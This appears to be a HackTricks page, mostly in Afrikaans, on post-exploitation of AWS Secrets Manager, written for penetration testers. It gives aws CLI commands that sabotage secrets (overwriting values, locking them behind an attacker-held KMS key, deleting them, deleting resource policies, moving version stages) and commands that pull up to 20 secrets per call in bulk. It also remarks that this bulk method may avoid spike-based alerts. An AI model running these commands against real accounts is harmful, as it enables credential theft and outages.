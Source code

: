 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Vir meer inligting, sien:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

Die **secrets self is sensitiewe inligting**, [sien die privesc-blad](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) om te leer hoe om dit te lees.

### DoS Change Secret Value

Deur die waarde van die secret te verander, kan jy **DoS al die stelsels wat van daardie waarde afhanklik is.**

> [!WARNING]
> Let daarop dat vorige waardes ook gestoor word, so is dit maklik om net terug te keer na die vorige waarde.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

As die aanvaller die secretsmanager:UpdateSecret-toestemming het, kan hulle die geheim so konfigureer dat dit 'n KMS key gebruik wat deur die aanvaller besit word. Daardie key is aanvanklik so ingestel dat enigiemand toegang daartoe kan kry en dit kan gebruik, dus is dit moontlik om die geheim met die nuwe key by te werk. As die key nie toeganklik was nie, kon die geheim nie bygewerk word nie.

Na die verandering van die key vir die geheim, wysig die aanvaller die konfiguratie van hul key sodat slegs hulle daartoe toegang het. Op hierdie manier sal toekomstige weergawes van die geheim met die nuwe key versleuteld word, en aangesien daar geen toegang daartoe is nie, sal die vermoë om die geheim te verkry verlore gaan.

Dit is belangrik om daarop te let dat hierdie ontoeganklikheid slegs in latere weergawes sal voorkom, nadat die inhoud van die geheim verander, want die huidige weergawe is nog steeds versleuteld met die oorspronklike KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Verwydering van geheim

Die minimum aantal dae om 'n geheim te verwyder is 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Dit is moontlik om 'n geheim te herstel, wat die herstel van geheime wat vir verwydering geskeduleer is, toelaat, aangesien die minimum verwyderingsperiode vir geheime 7 dae is en die maksimum 30 dae. Saam met die secretsmanager:GetSecretValue-permissie maak dit moontlik om hul inhoud te verkry.

Om 'n geheim wat in die proses van verwydering is te herstel, kan jy die volgende opdrag gebruik:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Hierdie aksie laat toe om die resource policy wat beheer wie toegang tot 'n secret het, te verwyder. Dit kan tot 'n DoS lei as die resource policy gekonfigureer was om toegang aan 'n spesifieke groep gebruikers toe te laat.

Om die resource policy te verwyder:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Die statusse van ’n geheim word gebruik om weergawes daarvan te bestuur. AWSCURRENT merk die aktiewe weergawe wat toepassings gebruik, AWSPREVIOUS hou die vorige weergawe sodat jy indien nodig kan terugrol, en AWSPENDING word in die rotasieproses gebruik om ’n nuwe weergawe voor te berei en te valideer voordat dit die huidige gemaak word.

Toepassings lees altyd die weergawe met AWSCURRENT. As iemand daardie etiket na die verkeerde weergawe skuif, sal die toepassings ongeldige geloofsbriewe gebruik en kan misluk.

AWSPREVIOUS word nie outomaties gebruik nie. Indien AWSCURRENT egter verwyder of verkeerd toegewys word, kan dit voorkom asof alles steeds met die vorige weergawe loop.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Misbruik die Secrets Manager BatchGetSecretValue API om tot 20 geheime in 'n enkele versoek te bekom. Dit kan API-oproepvolume drasties verminder in vergelyking met om GetSecretValue per geheim te herhaal. As filters gebruik word (tags/name), is ListSecrets-permissie ook benodig. CloudTrail neem steeds een GetSecretValue-gebeurtenis op per geheim wat in die groep teruggehaal word.

Vereiste permissies
- `secretsmanager:BatchGetSecretValue`
- `secretsmanager:GetSecretValue` vir elke teiken-geheim
- `secretsmanager:ListSecrets` indien `--filters` gebruik word
- `kms:Decrypt` op die CMKs wat deur die geheime gebruik word (as nie `aws/secretsmanager` gebruik word nie)

> [!WARNING]
> Neem kennis dat die toestemming `secretsmanager:BatchGetSecretValue` op sigself nie voldoende is om geheime te verkry nie; jy benodig ook `secretsmanager:GetSecretValue` vir elke geheim wat jy wil verkry.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate deur filters (tag key/value of naamvoorvoegsel)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Omgaan met gedeeltelike mislukkings
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Impak
- Vinnige “smash-and-grab” van baie geheime met minder API-oproepe, wat waarskuwings wat afgestel is op pieke van GetSecretValue potensieel kan omseil.
- CloudTrail-logboeke bevat steeds een GetSecretValue-gebeurtenis per geheim wat deur die bondel opgehaal is.
